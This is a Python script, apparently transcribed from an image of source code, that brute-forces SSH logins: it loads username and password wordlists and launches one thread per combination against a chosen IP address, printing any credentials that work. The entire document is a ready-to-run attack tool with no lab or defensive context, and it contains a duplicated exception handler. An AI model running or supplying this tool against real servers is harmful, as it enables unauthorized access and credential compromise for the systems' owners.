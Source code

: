 #!/usr/bin/env python

import paramiko
from threading import Thread, Lock

def ssh_login(username, password, ip, lock):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(ip, username=username, password=password, timeout=5)
        lock.acquire()
        print(f"Valid credentials found: Username: {username}, Password: {password}")
        lock.release()
        client.close()
    except paramiko.AuthenticationException:
        lock.acquire()
        print(f"Invalid credentials: Username: {username}, Password: {password}")
        lock.release()
    except paramiko.SSHException as e:
        lock.acquire()
        print(f"SSH error occurred while connecting to {ip}: {str(e)}")
        lock.release()
    except paramiko.SSHException as e:
        lock.acquire()
        print(f"SSH error occurred while connecting to {ip}: {str(e)}")
        lock.release()
    except paramiko.socket.error as e:
        lock.acquire()
        print(f"Socket error occurred while connecting to {ip}: {str(e)}")
        lock.release()
    except Exception as e:
        lock.acquire()
        print(f"An error occurred while connecting to {ip}: {str(e)}")
        lock.release()

def main():
    ip = input("Enter the IP address: ")
    username_file = input("Enter the path to the username file: ")
    password_file = input("Enter the path to the password file: ")

    with open(username_file, "r") as user_file:
        usernames = user_file.read().splitlines()

    with open(password_file, "r") as pass_file:
        passwords = pass_file.read().splitlines()

    # Create a lock to synchronize printing
    lock = Lock()

    threads = []
    for username in usernames:
        for password in passwords:
            thread = Thread(target=ssh_login, args=(username, password, ip, lock))
            thread.start()
            threads.append(thread)

    # Wait for all threads to complete
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

